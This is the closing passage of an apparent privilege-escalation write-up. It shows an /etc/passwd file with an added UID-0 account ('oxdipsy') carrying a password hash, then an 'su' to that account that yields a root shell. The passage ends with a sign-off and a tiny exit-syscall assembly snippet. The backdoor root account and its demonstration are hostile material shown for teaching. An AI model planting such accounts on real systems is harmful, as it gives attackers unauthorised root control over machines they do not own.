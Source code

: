 ```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:105::/var/run/dbus:/bin/false
colord:x:103:108:colord colour management daemon,,,:/var/lib/colord:/bin/false
lightdm:x:104:111:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:105:114::/nonexistent:/bin/false
avahi-autoipd:x:106:117:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:107:118:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
usbmux:x:108:46:usbmux daemon,,,:/home/usbmux:/bin/false
kernoops:x:109:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:110:119:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:111:122:RealtimeKit,,,:/proc:/bin/false
speech-dispatcher:x:112:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/sh
hplip:x:113:7:HPLIP system user,,,:/var/run/hplip:/bin/false
saned:x:114:123::/home/saned:/bin/false
dipsy:x:1000:1000:dipsy,,,:/home/dipsy:/bin/bash
oxdipsy:Az2MnRp7oxKXQ:0:0::/:/bin/sh
``` 
And we can switch to that user successfully:
```
dipsy@ubuntu:~$ su - oxdipsy 
Password: 
# whoami
root
``` 


Your questions, comments are valuable and highly appreciated.
Thank you for bearing to the end!
XOR EAX, EAX 
MOV al, 0x1 
int 0x80 
